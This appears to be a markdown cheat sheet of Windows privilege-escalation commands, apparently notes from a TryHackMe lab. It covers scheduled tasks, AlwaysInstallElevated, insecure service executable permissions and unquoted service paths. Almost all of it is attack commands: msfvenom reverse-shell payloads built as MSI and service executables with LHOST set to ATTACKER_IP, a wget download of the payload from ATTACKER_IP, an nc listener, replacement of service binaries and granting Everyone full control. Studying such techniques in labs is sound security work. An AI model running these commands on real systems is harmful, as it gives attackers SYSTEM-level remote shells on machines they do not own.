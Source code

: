 >note: Other software have methods to recover any passwords the user has saved  

##  Other Quick Wins 
### Scheduled Tasks  

command: [explain](https://chat.openai.com/share/099635af-3639-4c36-bead-1015aa2439c3)
```bash
schtasks 
schtasks /query /tn vulntask /fo list /v 

icacls c:\tasks\schtask.bat #check the file permissions on the executable 

 schtasks /run /tn vulntask #manually run task, experimental purpose
```
### AlwaysInstallElevated 
command: 
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer  #query 1
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer #query 2

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.109.20 LPORT=LOCAL_PORT -f msi -o malicious.msi

 msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
###  Abusing Service Misconfigurations
#### Windows Services
command:  
```bash
sc qc apphostsvc

```
#### Insecure Permissions on Service Executable

command: 
```cmd
sc qc WindowsScheduler 
icacls C:\PROGRA~2\SYSTEM~1\WService.exe 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
python3 -m http.server 80
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

cd C:\PROGRA~2\SYSTEM~1\
move WService.exe WService.exe.bkp
move C:\Users\thm-unpriv\rev-svc.exe WService.exe
icacls WService.exe /grant Everyone:F
nc -lvp 4445
sc stop windowsscheduler
sc start windowsscheduler
note: PowerShell sc.exe
```
#### Unquoted Service Paths 
command: 
```cmd
sc qc "disk sorter enterprise"  
icacls c:\MyPrograms 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe 
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
icacls C:\MyPrograms\Disk.exe /grant Everyone:F  
sc stop "disk sorter enterprise"
```